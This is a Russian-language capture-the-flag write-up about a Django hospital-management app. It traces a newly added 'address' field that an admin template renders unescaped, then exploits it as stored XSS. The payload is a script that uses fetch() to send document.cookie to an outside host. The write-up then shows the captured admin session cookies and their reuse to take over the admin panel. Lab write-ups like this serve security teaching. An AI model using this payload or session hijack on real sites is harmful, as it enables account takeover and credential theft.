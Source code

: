 # Мегастог

Из условия следует, что на сайте есть клиент, подтверждающий записи к врачу (активирующий аккаунты пациентов). Возможно нам это пригодится...

Код, представленный в исходниках, хранится на [GitHub](https://github.com/sumitkumar1503/hospitalmanagement/) (о чем нам говорит README.md). Давайте настроим и запустим его:

```bash
$ python3 manage.py makemigrations
Migrations for 'hospital':
  hospital/migrations/0019_auto_20230716_1432.py
    - Alter field address on patientdischargedetails
```

Интересно, все нужные миграции были сгенерированны заранее и лежат в *hospital/migrations*. Давайте посмотрим, что является её причиной:

```python
# Generated by Django 3.0.5 on 2023-07-16 14:32

from django.db import migrations, models


class Migration(migrations.Migration):

    dependencies = [
        ('hospital', '0018_auto_20201015_2036'),
    ]

    operations = [
        migrations.AlterField(
            model_name='patientdischargedetails',
            name='address',
            field=models.CharField(max_length=200),
        ),
    ]
```

Добавлено новое поле - **address**. В последней версии проекта на GitHub этого поля нет. Найдем все строки кода, где оно используется:

```bash
$ grep -rn 'address' hospital
...

$ grep -rn 'address' hospitalmanagement
...

$ grep -rn 'address' templates
...
templates/hospital/admin_approve_patient.html:50:        <td>{{p.address |safe }}</td>
...
```

Отлично, найден потенциальный вектор XSS. <br>
Зарегистрируем пользователся со следующим адрессом:

```html
<script>fetch(`http://host:port/?x=${document.cookie}`)</script>
```

После подтверждения, получаем на сервер куки админа:

```
158.176.4.7 - - [16/Jul/2023 16:46:46] "GET /?x=csrftoken=Xg09BR5WXVpB3ms3d9o1P2NgWOBDPV8ga8IONyIktxSBJjArXgvkS6END0O0oJay;%20sessionid=kj3nt36lkfua1hm9h43v85o8lyeuwvee HTTP/1.1" 200 -
```

Меняем их у себя и переходим на главную страницу, после чего нас редиректит на админ панель с флагом:

![Флаг](flag.png)
